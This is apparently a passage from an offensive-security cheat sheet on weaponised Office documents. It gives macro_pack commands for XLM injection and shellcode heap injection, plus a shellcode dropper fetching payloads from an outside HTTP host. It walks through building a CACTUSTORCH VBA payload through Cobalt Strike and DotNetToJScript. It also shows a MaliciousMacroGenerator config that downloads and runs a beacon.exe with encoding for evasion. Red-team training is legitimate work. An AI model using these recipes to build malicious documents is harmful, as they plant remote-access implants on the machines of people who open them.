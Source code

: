 ```powershell
# PRO: XLM Injection
echo "MPPro" | macro_pack.exe -G _samples\hello.doc -t HELLO --xlm --run-in-excel

# PRO: ShellCode Exec - Heap Injection, AlternativeInjection
echo "x32calc.bin" | macro_pack.exe -t SHELLCODE -o --shellcodemethod=HeapInjection -G test.doc
echo "x32calc.bin" | macro_pack.exe -t SHELLCODE -o --shellcodemethod=AlternativeInjection --background -G test.doc

# PRO: More shellcodes
echo x86.bin | macro_pack.exe -t SHELLCODE -o -G test.pptm –keep-alive
echo "x86.bin" "x64.bin" | macro_pack.exe -t AUTOSHELLCODE -o –autopack -G sc_auto.doc
echo "http://192.168.5.10:8080/x32calc.bin" "http://192.168.5.10:8080/x64calc.bin" | macro_pack.exe -t DROPPER_SHELLCODE -o --shellcodemethod=ClassicIndirect -G samples\sc_dl.xls
```


## DOCM - CACTUSTORCH VBA Module

> CactusTorch is leveraging the DotNetToJscript technique to load a .Net compiled binary into memory and execute it from vbscript

* https://github.com/mdsecactivebreach/CACTUSTORCH
* https://github.com/tyranid/DotNetToJScript/
* CACTUSTORCH - DotNetToJScript all the things - https://youtu.be/YiaKb8nHFSY
* CACTUSTORCH - CobaltStrike Aggressor Script Addon - https://www.youtube.com/watch?v=_pwH6a-6yAQ

1. Import **.cna** in Cobalt Strike
2. Generate a new VBA payload from the CACTUSTORCH menu
3. Download DotNetToJscript
4. Compile it 
    * **DotNetToJscript.exe** - responsible for bootstrapping C# binaries (supplied as input) and converting them to JavaScript or VBScript
    * **ExampleAssembly.dll** - the C# assembly that will be given to DotNetToJscript.exe. In default project configuration, the assembly just pops a message box with the text "test"
5. Execute **DotNetToJscript.exe** and supply it with the ExampleAssembly.dll, specify the output file and the output type
    ```ps1
    DotNetToJScript.exeExampleAssembly.dll -l vba -o test.vba -c cactusTorch
    ```
6. Use the generated code to replace the hardcoded binary in CactusTorch


## DOCM - MMG with Custom DL + Exec

1. Custom Download in first Macro to "C:\\Users\\Public\\beacon.exe"
2. Create a custom binary execute using MMG
3. Merge both Macro

```ps1
git clone https://github.com/Mr-Un1k0d3r/MaliciousMacroGenerator
python MMG.py configs/generic-cmd.json malicious.vba
{
	"description": "Generic command exec payload\nEvasion technique set to none",
	"template": "templates/payloads/generic-cmd-template.vba",
	"varcount": 152,
	"encodingoffset": 5,
	"chunksize": 180,
	"encodedvars": 	{},
	"vars": 	[],
	"evasion": 	["encoder"],
	"payload": "cmd.exe /c C:\\Users\\Public\\beacon.exe"
}
```
